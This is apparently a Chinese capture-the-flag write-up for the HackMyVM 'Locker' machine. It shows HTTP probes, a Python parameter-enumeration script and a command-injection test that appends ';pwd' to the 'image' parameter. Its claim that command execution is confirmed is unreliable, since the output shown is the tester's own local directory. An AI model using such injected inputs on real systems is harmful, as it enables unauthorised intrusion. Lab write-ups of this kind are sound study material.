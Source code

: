 ```bash
┌─[randark@randark-Parrot]─[~]
└──╼ $http get 192.168.56.111
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Thu, 28 Dec 2023 09:49:49 GMT
ETag: W/"600a9d7c-8e"
Last-Modified: Fri, 22 Jan 2021 09:40:12 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked

<h1>SUPER LOCKER</h1>
<pre>
Use root password to unlock our powers!
aAaaaAAaaAaAAaAAaAAaaaA!
<a href="/locker.php?image=1">Model 1</a>
</pre>
```

尝试点击链接，发现只返回了一张图片

![访问 /locker.php?image=1](img/image_20231251-175121.png)

对访问的链接进行分析：

```plaintext
http://192.168.56.111/locker.php?image=3
```

只有一个参数点：`image` ，编写脚本进行扫描

```python
import requests

base_url = "http://192.168.56.111/locker.php?image="

for i in range(0, 10):
    res = requests.get(base_url + str(i)).text
    with open("./" + str(i), "w+") as f:
        f.write(res)
```

发现只有编号 1，2，3 有返回数据，尝试对图像数据进行分析，并未发现存在图像隐写

尝试对参数点进行 fuzz，发现存在命令执行

```bash
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Locker]
└──╼ $http get http://192.168.56.111/locker.php?image=;pwd
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Thu, 28 Dec 2023 10:07:25 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked

<img src="data:image/jpg;base64,"width="150"height="150"/>

/home/randark/tmp/HackMyVM-Locker
```
